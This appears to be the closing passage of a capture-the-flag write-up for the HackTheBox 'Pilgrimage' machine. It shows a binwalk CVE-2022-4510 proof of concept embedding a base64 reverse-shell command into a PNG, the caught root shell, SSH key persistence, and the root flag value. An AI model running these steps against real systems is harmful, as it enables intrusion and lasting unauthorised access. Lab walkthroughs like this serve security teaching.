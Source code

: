 I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

Then, I'll use
[this PoC](https://github.com/adhikara13/CVE-2022-4510-WalkingPath) to add this
payload to an `image.png` file.

```sh
❯ python "/workspace/walkingpath.py" "command" "/workspace/image.png" --command "/bin/echo $BASE64_REVSHELL_PAYLOAD | /usr/bin/base64 -d | /bin/bash -i"
```

### Exploitation

Let's upload the generated `binwalk_exploit.png` file to the
`/var/www/pilgrimage.htb/shrunk` folder:

```sh
❯ scp "/workspace/binwalk_exploit.png" "emily@10.10.11.219:/var/www/pilgrimage.htb/shrunk"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.219] 35290
<SNIP>
root@pilgrimage:~/quarantine#
```

It caught the reverse shell!

### Spawning a pty & establishing persistence

Let's use SSH to spawn a pty and to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Pilgrimage as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@pilgrimage:~# cat "/root/root.txt"
```

```
3dc1750b49d9b2e465d9b41aa1678e29
```

# Afterwords
